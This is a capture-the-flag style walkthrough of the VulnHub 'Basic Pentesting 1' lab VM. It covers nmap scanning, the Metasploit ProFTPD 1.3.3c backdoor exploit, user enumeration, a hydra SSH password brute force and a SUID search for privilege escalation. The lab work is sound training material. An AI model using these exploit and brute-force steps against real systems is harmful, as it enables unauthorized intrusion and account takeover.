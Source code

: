 <h1 align="center">
  <br>
  <a href="https://www.vulnhub.com/entry/basic-pentesting-1,216/">Basic_Pentesting1</a>
  <br>
</h1>

#### Port Scanning
```bash
$ nmap -A <target_ip>

Other Scanning Examples:
$ nmap -A -p- -T4 <target_ip>
$ nmap -sV -sC <target_ip>
```

#### Open Ports
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/OpenPorts.png)


#### Exploiting port 21 ProFTPD 1.3.3c 
```bash
$ msfconsole
$ search ProFTPD
$ use exploit/unix/ftp/proftpd_133c_backdoor
$ set rhosts <target_ip>
$ set rport 21
$ run/exploit
--------------Hoorah--We--are--in--------------------
-------------------EXPLOITED-------------------------
```

#### User enumeration
`$ enum4linux -a <target_ip>`
Users Found:
marlinspike
root

#### Bruteforcing into SSH using hydra trying default credentials
```bash
$ hydra -l marlinspike -P <wordlist> ssh://target_ip -V

Password Found for user(marlinspike):
[22][ssh] host: 192.168.1.70   login: marlinspike   password: marlinspike
```

#### Privilege Escalation
`marlinspike@vtcsec:~$ find / -type f -perm -u=s 2>/dev/null`


![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc.png)


After researching, we find that the user(marlinspike) has all the command privileges.

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc-Success.png)